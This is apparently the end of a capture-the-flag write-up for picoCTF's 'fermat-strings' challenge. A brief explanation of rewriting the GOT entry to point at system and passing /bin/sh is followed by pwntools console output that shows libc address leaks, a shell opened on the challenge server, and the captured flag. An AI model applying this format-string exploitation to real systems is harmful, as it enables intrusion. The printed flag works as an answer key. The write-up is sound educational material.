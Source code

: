 strcspn is called with both A and B (both of our number). Once we've rewritten the GOT to point to system, we can just pass /bin/sh as a number and it'll give us a shell. 


```text
❯ python solve.py REMOTE
[*] '/home/sky/Dropbox/ctf/picomini-by-redpwn/fermat-strings/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
    RUNPATH:  b'.'
[*] '/home/sky/Dropbox/ctf/picomini-by-redpwn/fermat-strings/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/sky/Dropbox/ctf/picomini-by-redpwn/fermat-strings/ld-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to mars.picoctf.net on port 31929: Done
[*] main address: 0x400837
[*] pow GOT address: 0x601040
[*] strcspn GOT address: 0x601048
/home/sky/Dropbox/ctf/picomini-by-redpwn/fermat-strings/solve.py:52: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("Calculating for A: ")
[*] rewrote pow GOT to main
/home/sky/Dropbox/ctf/picomini-by-redpwn/fermat-strings/solve.py:58: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.sendline("1")
/home/sky/Dropbox/ctf/picomini-by-redpwn/fermat-strings/solve.py:59: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil("Calculating for A: 1")
/home/sky/Dropbox/ctf/picomini-by-redpwn/fermat-strings/solve.py:60: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  libc_start_main = int(r.recvuntil(" "),16)
[*] leaked __libc_start_main: 0x7fbcecea00b3
[*] leaked libc_base: 0x7fbcece79000
[*] leaked libc_system: 0x7fbcecece410
[*] Switching to interactive mode
and B: 1
Welcome to Fermat\'s Last Theorem as a service
A: B: Calculating for A: 11111111H\x10 and B: 1                                                                                                                                                                                                                                   400bd8                                                                                                                                                                                                            96c4941e      d8
Welcome to Fermat\'s Last Theorem as a service
A: B: $ cat flag.txt
picoCTF{f3rm4t_pwn1ng_s1nc3_th3_17th_c3ntury}
Error: could not parse numbers!
Welcome to Fermat\'s Last Theorem as a service
A: $  
```
